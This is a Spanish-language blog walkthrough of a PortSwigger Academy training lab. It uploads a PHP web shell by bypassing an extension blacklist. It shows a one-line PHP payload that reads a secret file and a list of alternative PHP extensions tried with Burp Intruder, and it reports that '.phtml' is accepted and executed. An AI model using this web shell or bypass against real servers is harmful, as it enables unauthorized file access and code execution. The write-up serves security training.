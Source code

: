 +++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 5"
date = "2022-01-03"
description = "Lab: Web shell upload via extension blacklist bypass"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Web shell upload via extension blacklist bypass

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario, pero al intentar subir una imagen no nos da una opcion para poder elegir imagen u otro.

![Sistema permite la subida de archivos](upload.png)

Todo bien pero el sistema parece que no ejecuta el codigo php desde la carpeta, haciendo que cualquier archivo php solo podamos ver el contenido del `php` como si fuera texto plano.

## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtml
.pl
.reg
.sh
.shtml
```

Ahora enviamos el archivo, y vemos la respuesta que nos da diciendo que no se permite subir archivos de tipo `php`

![Subida de archivo php al servidor](request.png)

Ahora lo que haremos en configurar en intruder y modificar si otros tipos de extensiones son aceptados pero sean tomados como php

![Modificacion de tipo de extension en intruder](positions.png)
![Diccionario con lista de extensiones](payloads.png)

> Siempre modificar la opcion de Payload Encoding y no codificar el . para evitar que se modifique

Y ahora vemos que hay una opcion que si se logro subir que es el `.phtml`

![Extension si admitida por el servidor](intruder.png)

Con esto vamos a la ruta del archivo y vemos que se ejecuta el codigo php dentro sin problemas

![Lectura de archivo secret de carlos](key.png)

Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)